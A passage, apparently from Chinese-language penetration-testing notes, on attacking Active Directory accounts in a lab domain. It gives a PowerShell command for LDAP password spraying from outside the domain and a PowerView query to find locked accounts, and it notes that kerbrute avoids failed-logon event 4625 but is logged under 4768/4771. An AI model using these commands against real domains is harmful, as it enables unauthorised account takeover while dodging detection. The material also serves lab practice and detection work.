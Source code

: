 **ldap 暴力破解**：

DomainPasswordSpray的功能比较完整，但不支持域外的使用，这里使用了[三好学生的修改的脚本](https://github.com/3gstudent/Homework-of-Powershell/blob/master/Invoke-DomainPasswordSprayOutsideTheDomain.ps1)，支持域外使用。

	PS > Invoke-DomainPasswordSprayOutsideTheDomain -Domain "10.10.40.50/DC=lmrsec,DC=com" -UserList .\user.txt -Password Passw0rd -Verbose
	LDAP://10.10.40.50/DC=lmrsec,DC=com

![](images/19.jpg)

![](images/20.jpg)

流量包见 DomainPasswordSpray brute username.pcap。

4.**在域内windows系统查询**

[三好学生的工具](https://github.com/3gstudent/Homework-of-C-Language/blob/master/QueryADObject.cpp)

VS编译CPP文件成exe：

https://jingyan.baidu.com/article/f71d6037c7accb1ab641d115.html  

在域内win7 运行报错，具体原因未知。

![](images/15.jpg)

5.**在域外识别被禁用的用户**

可以通过读取用户的badPwdCount属性和lockoutTime属性进行判断

使用PowerView查看所有用户的badPwdCount属性和lockoutTime属性

	Get-NetUser -Domain lmrsec.com -DomainController 10.10.40.50 -ADSpath "LDAP://DC=lmrsec,DC=com" -Credential $cred| select name,badPwdCount,lockoutTime

![](images/16.png)




## 参考资料

[渗透基础——域内用户口令策略的获取](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7%E5%8F%A3%E4%BB%A4%E7%AD%96%E7%95%A5%E7%9A%84%E8%8E%B7%E5%8F%96/)

[渗透基础——活动目录信息的获取](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E6%B4%BB%E5%8A%A8%E7%9B%AE%E5%BD%95%E4%BF%A1%E6%81%AF%E7%9A%84%E8%8E%B7%E5%8F%96/)

[渗透基础——通过LDAP协议暴力破解域用户的口令](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E9%80%9A%E8%BF%87LDAP%E5%8D%8F%E8%AE%AE%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E5%9F%9F%E7%94%A8%E6%88%B7%E7%9A%84%E5%8F%A3%E4%BB%A4/)

**[Active Directory: LDAP 语法过滤手册](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx?Sort=MostUseful)**

## 后记

使用 [kerbrute](https://github.com/ropnop/kerbrute) 也可以进行暴力破解，且不会产生日志(4625 - An account failed to log on)，但是可以通过日志(4768 - A Kerberos authentication ticket (TGT) was requested 和 4771 - Kerberos pre-authentication failed)记录。



